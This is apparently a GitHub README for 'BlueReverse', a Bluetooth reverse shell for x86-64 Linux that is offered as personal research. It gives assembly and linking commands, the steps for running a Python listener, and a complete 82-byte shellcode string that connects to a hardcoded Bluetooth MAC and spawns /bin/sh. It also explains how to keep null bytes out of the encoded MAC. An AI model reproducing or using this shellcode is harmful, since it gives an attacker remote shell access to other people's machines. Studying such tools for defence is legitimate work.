 BlueReverse
===========

Bluetooth reverse shell currently for x86-64 Linux system.<br/>


Copyright (C) 2018  Neetx

BlueReverse is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

BlueReverse is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>

### CONTACTS:
[Neetx](mailto:neetx@protonmail.com)

---

BlueReverse has been implemented as personal research and fun. I provide you .asm file (client side), .py 2.7 file (server side) and the shellcode.

You must fill .asm and .py with your mac and with your desired channel for the communication. Then:
```
nasm -f elf64 brev_shell.asm -o test.o
ld test.o -o test
```

Now you must start the server:
```
python bluereversehandler.py
```

And now you can launch test:
```
./test
```
You will get prompt on server side.
I tested the code with a rpi3 (server) and a Debian Stretch (client).

---

### Shellcode:

If you need shellcode you can use my tool ShellcodeExtractor (https://github.com/Neetx/Shellcode-Extractor)

```
objdump -D test.o | python shellcode_extractor.py
```

My output and lenght:
\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\x9f\xea\xa3\x14\xd8\x47\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05
82

You must do it by yourself because you have another MAC and maybe another channel.
If you don't use my tool or another tool/command you have to put your MAC manually after NOT operation, because of this in .asm:
```
mov rcx, ~0xXXXXXXXXXXXX001f		;mac + family(1f=31)
not rcx
```
(~ MAC + 00 (filler) + 1f (family))

00 is a nullbyte and to avoid it I use ~ , so the value after ~ is stored in the binary after a NOT operation and 00 become FF. Then i used "not rcx" to obtain the desired value.

### Test Shellcode:

Put your shellcode in the shellcode_tester.c, compile it and test. 

---

###Screenshot

![alt text](screen.jpg "Example")

